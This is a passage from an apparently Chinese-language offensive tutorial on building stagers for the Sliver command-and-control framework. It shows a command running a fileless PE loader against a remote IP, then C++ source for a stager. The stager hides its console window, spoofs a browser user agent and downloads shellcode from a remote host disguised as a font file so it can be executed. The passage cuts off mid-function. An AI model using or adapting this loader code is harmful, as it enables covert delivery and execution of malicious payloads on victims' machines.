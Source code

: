 ```shell
FilelessPELoader.exe 172.16.181.177 8888 cipher.bin key.bin
```

![p9aHfht.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-6263b66eeaab6b4d3dcc94735549d0c56de44fe9.png)

四、自定义 Stager
------------

上述编写了简易 Stager 后，我们就可以进一步编写更加完善的 Stager。官方文档中提供了相关资料 - <https://github.com/BishopFox/sliver/wiki/Stagers> 用于参考学习。基于此文，下面分别介绍C++、C#和Powershell三种分阶段执行器的编写思路及使用效果。

五、C++ Stager
------------

Stager 实际上就是 ShellCode Runner 的升级版，在运行代码功能基础上，添加了下载远程服务器上shellcode的功能。

### 快速上手 - 完整代码

```C++
#include <windows.h>
#include <wininet.h>
#include <stdio.h>
#pragma comment (lib, "Wininet.lib")

struct Shellcode {
    byte* data;
    DWORD len;
};

Shellcode Download(LPCWSTR host, INTERNET_PORT port);
void Execute(Shellcode shellcode);

int main() {
    ::ShowWindow(::GetConsoleWindow(), SW_HIDE); // 隐藏窗口
    Shellcode shellcode = Download(L"172.16.181.182", 80);
    Execute(shellcode);
    return 0;
}

Shellcode Download(LPCWSTR host, INTERNET_PORT port) {
    HINTERNET session = InternetOpen(L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);

    HINTERNET connection = InternetConnect(session, host, port, L"", L"", INTERNET_SERVICE_HTTP, 0, 0);

    HINTERNET request = HttpOpenRequest(connection, L"GET", L"/fontawesome.woff", NULL, NULL, NULL, 0, 0);

    WORD counter = 0;
    while (!HttpSendRequest(request, NULL, 0, 0, 0)) {
        counter++;
        Sleep(3000);
        if (counter >= 3) {
            exit(0);
        }
    }

    DWORD bufSize = BUFSIZ;
    byte* buffer = new byte[bufSize];
    DWORD capacity = bufSize;
    byte* payload = (byte*)malloc(capacity);
    DWORD payloadSize = 0;

    while (true) {
```